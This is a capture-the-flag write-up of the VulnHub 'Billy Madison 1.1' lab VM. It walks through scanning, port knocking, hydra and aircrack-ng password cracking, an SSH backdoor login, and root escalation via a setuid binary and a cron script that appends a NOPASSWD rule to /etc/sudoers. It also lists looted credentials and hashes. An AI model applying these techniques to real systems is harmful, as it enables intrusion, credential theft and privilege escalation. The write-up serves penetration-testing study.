




# [[VulnHub] Billy Madison: 1.1](https://www.vulnhub.com/entry/billy-madison-11,161/)

**Date**: 05/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [privesc_setuid](https://github.com/7h3rAm/writeups/search?q=privesc_setuid&unscoped_q=privesc_setuid), [privesc_cron](https://github.com/7h3rAm/writeups/search?q=privesc_cron&unscoped_q=privesc_cron), [privesc_sudoers](https://github.com/7h3rAm/writeups/search?q=privesc_sudoers&unscoped_q=privesc_sudoers)  

## Overview
This is a writeup for VulnHub VM [Billy Madison: 1.1](https://www.vulnhub.com/entry/billy-madison-11,161/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):


### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:




### TTPs
1\. `1974/tcp`: [privesc_setuid](https://github.com/7h3rAm/writeups#privesc_setuid), [privesc_cron](https://github.com/7h3rAm/writeups#privesc_cron), [privesc_sudoers](https://github.com/7h3rAm/writeups#privesc_sudoers)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Thu Sep  5 17:45:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/billymadison1dot1/results/192.168.92.167/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/billymadison1dot1/results/192.168.92.167/scans/xml/_quick_tcp_nmap.xml 192.168.92.167
Nmap scan report for 192.168.92.167
Host is up, received arp-response (0.00038s latency).
Scanned at 2019-09-05 17:45:53 PDT for 94s
Not shown: 994 filtered ports
Reason: 994 no-responses
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  tcpwrapped  syn-ack ttl 64
23/tcp   open  telnet?     syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|_    ***** HAHAH! You're banned for a while, Billy Boy! By the way, I caught you trying to hack my wifi - but the joke's on you! I don't use ROTten passwords like rkfpuzrahngvat anymore! Madison Hotels is as good as MINE!!!! *****
80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Oh nooooooo!
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
2525/tcp open  smtp        syn-ack ttl 64 SubEtha smtpd
| smtp-commands: BM, 8BITMIME, AUTH LOGIN, Ok, 
|_ SubEthaSMTP null on BM Topics: HELP HELO RCPT MAIL DATA AUTH EHLO NOOP RSET VRFY QUIT STARTTLS For more info use "HELP <topic>". End of HELP info 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.70%I=9%D=9/5%Time=5D71AC46%P=i686-pc-linux-gnu%r(NULL,E6
SF:,"\n\n\*\*\*\*\*\x20HAHAH!\x20You're\x20banned\x20for\x20a\x20while,\x2
SF:0Billy\x20Boy!\x20\x20By\x20the\x20way,\x20I\x20caught\x20you\x20trying
SF:\x20to\x20hack\x20my\x20wifi\x20-\x20but\x20the\x20joke's\x20on\x20you!
SF:\x20I\x20don't\x20use\x20ROTten\x20passwords\x20like\x20rkfpuzrahngvat\
SF:x20anymore!\x20Madison\x20Hotels\x20is\x20as\x20good\x20as\x20MINE!!!!\
SF:x20\*\*\*\*\*\n\n");
MAC Address: 00:0C:29:1A:ED:6C (VMware)
Service Info: Host: BM

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 57877/tcp): CLEAN (Timeout)
|   Check 2 (port 44191/tcp): CLEAN (Timeout)
|   Check 3 (port 46411/udp): CLEAN (Timeout)
|   Check 4 (port 51691/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: bm
|   NetBIOS computer name: BM\x00
|   Domain name: \x00
|   FQDN: bm
|_  System time: 2019-09-05T19:46:51-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-05 17:46:52
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 17:47:28 2019 -- 1 IP address (1 host up) scanned in 97.41 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. Tried connecting to Telnet service and found a ROT13 encoded string:  

  

4\. Decoded the ROT13 (Caesar Cipher) encoded string and used it as the HTTP directory name:  
``` {.python .numberLines}
http://192.168.92.167/exschmenuating

```

  

5\. Found reference to the presence of files with names from `rockyou.txt` wordlist and `veronica` string in them. We created a custom wordlist, ran a `gobuster` scan and found a network capture file:  
``` {.python .numberLines}
gobuster -u http://192.168.92.167/exschmenuating -w veronica.wordlist -e -k -l -s "200,204,301,302,307,403,500" -x "cap,pcap,capture" -o "results/192.168.92.167/scans/tcp_80_http_gobuster_dirbuster.txt" → http://192.168.92.167/exschmenuating/012987veronica.cap

```

  

  

6\. Ran a port knock using the [Spanish Armada](https://www.youtube.com/watch?v=z5YU7JwVy7s) combo to open the FTP backdoor:  
``` {.python .numberLines}
for port in 1466 67 1469 1514 1981 1986; do nmap -Pn --host_timeout 201 --max-retries 0 -p ${port} 192.168.92.167; done
nmap -p21 192.168.92.167

```

7\. Found FTP password for user `veronica` using `hydra` and the custom wordlist created earlier:  
``` {.python .numberLines}
hydra -l veronica -P veronica.wordlist 192.168.92.167 ftp → veronica/babygirl_veronica07@yahoo.com

```

  

8\. Found FTP password for user `eric` from the network capture file `012987veronica.cap`:  
``` {.python .numberLines}
eric/ericdoesntdrinkhisownpee

```

  

9\. Connected as user `eric` to the FTP service and found a `.notes` file:  
``` {.python .numberLines}
ftp://eric@192.168.92.167/.notes

```

  

10\. Found reference to a SSH backdoor that requires sending an email with text `My kid will be a **soccer player**`:  
``` {.python .numberLines}
'swaks --to eric@madisonhotels.com --from vvaughn@polyfector.edu --server 192.168.92.167:2525 --body "My kid will be a soccer player" --header "Subject: My kid will be a soccer player"'

```

  

11\. Port `1974/tcp` is the SSH backdoor placed on the target host by user `eric`:  

  

12\. Found a network capture file `eg-01.cap` from user `veronica`'s FTP directory:  
``` {.python .numberLines}
ftp://veronica@192.168.92.167/eg-01.cap

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  tcpwrapped   |
23/tcp    |  telnet?      |
69/tcp    |  caldav       |  Radicale calendar and contacts server (Python BaseHTTPServer)
80/tcp    |  http         |  Apache httpd 2.4.18 ((Ubuntu))
139/tcp   |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   |  netbios-ssn  |  Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
2525/tcp  |  smtp         |  SubEtha smtpd
```
#### Files
``` {.python .numberLines}
http://192.168.92.167/exschmenuating
http://192.168.92.167/exschmenuating/012987veronica.cap
```
#### Users
``` {.python .numberLines}
ssh: eric, veronica
```

\newpage
## Phase #2: Exploitation
1\. From the storyline so far, user `eric` has reused WiFi password for SSH login. We need to extract the WiFi password from `eg-01.cap` file. We run an `aircrack` scan on the file and get SSH password:  
``` {.python .numberLines}
aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt → triscuit*

```

  

2\. We login as user `eric` to the SSH backdoor and gain initial shell access:  
``` {.python .numberLines}
ssh -p1974 eric@192.168.92.167

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
eric@BM> id
uid=1002(eric) gid=1002(eric) groups=1002(eric)
eric@BM>  
eric@BM> uname
Linux BM 4.4.0-36-generic #55-Ubuntu SMP Thu Aug 11 18:01:55 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
eric@BM>  
eric@BM> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:1a:ed:6c  
      inet addr:192.168.92.167  Bcast:192.168.92.255  Mask:255.255.255.0
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:10919 errors:0 dropped:0 overruns:0 frame:0
      TX packets:342 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000 
      RX bytes:742406 (742.4 KB)  TX bytes:39258 (39.2 KB)
eric@BM>  
eric@BM> users
billy
veronica
eric
```

\newpage
## Phase #3: Privilege Escalation
1\. While searching for `setuid` files we see an uncommon binary:  
``` {.python .numberLines}
find / -type f -perm -04000 2>/dev/null → /usr/local/share/sgml/donpcgd

```

2\. We test this binary and find that it requires two file path parameters. It creates an empty file at path passed as argument #2 with permissions of file passed as argument #1:  

  

3\. Used this to create a empty file at file path `/etc/cron.hourly/testing` with `chmod 777` permissions. We then added commands to this new file to add user `eric` to `/etc/sudoers`:  
``` {.python .numberLines}
touch testing
chmod 777 testing
echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers' >/etc/cron.hourly/testing

```

  

4\. We had to wait for an hour for the `cron` job to execute and after that running the `sudo -l` command confirmed that `sudoers` permissions are now enabled for user `eric`. We then changed to user `root`:  
``` {.python .numberLines}
sudo -l
sudo su

```

  

5\. We copied `BowelMovement` and `hints.txt` files from `/PRIVATE/` directory to `/home/eric/` and changed file owner to user `eric`. Then we download both files locally using `scp`:  
``` {.python .numberLines}
scp -p1974 eric@192.168.92.167:/home/eric/BowelMovement ./
scp -p1974 eric@192.168.92.167:/home/eric/hints.txt ./

```

  

6\. The `hints.txt` file hinted at a possible password from the Wikipedia page [BillyMadison](https://en.wikipedia.org/wiki/Billy_Madison). We used `cewl` to create a wordlist from the wiki page:  
``` {.python .numberLines}
cewl -d0 "https://en.wikipedia.org/wiki/Billy_Madison" >wiki.wordlist

```

  

7\. We then ran a password bruteforce on `BowelMovement` file as a `truecrypt` encrypted blob using `truecrack` and found it key:  
``` {.python .numberLines}
truecrack -t BowelMovement -w wiki.wordlist → execrable

```

  

8\. Mounting the decrypted `BowelMovement` file reveals a partition with `secret.zip` that contains both `Billy_Madison_12th_Grade_Final_Project.doc` and `THE-END.txt` files.  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
billy:$6$eqJNxIDh$oO.ynkHZmLxfr0k8YXHHdbyB4boe2two4HnEiJzzuVEUh0w0paEtVCmHXziHhZIet71QcLqhqnV/iknE/........................
veronica:$6$ud4650Og$j9dN4Xh6nHTDUQ5LpnrUzl6FdRiapcGvjg0JU2/Wx.G5Q.PFtbv.sa4OJyNnzTVsFEMmgnEZQV1nxGFiy........................
eric:$6$b15/PaMU$VKQussKbrXty79HD4A989SVCn.7.u6bJLMvsFgDSgiM01GlyM/lhb1xF0RcX906O6aIMbP7XoVI2F5UzI........................
```
### Credentials
``` {.python .numberLines}
ftp: veronica/babygirl_veronica07@y........, eric/ericdoesntdrinkhis......
ssh: eric/triscu...
truecrypt: execrab..
```

## References
[+] <https://www.vulnhub.com/entry/billy-madison-11,161/>  
[+] <https://g0blin.co.uk/billy-madison-1-vulnhub-writeup/>  
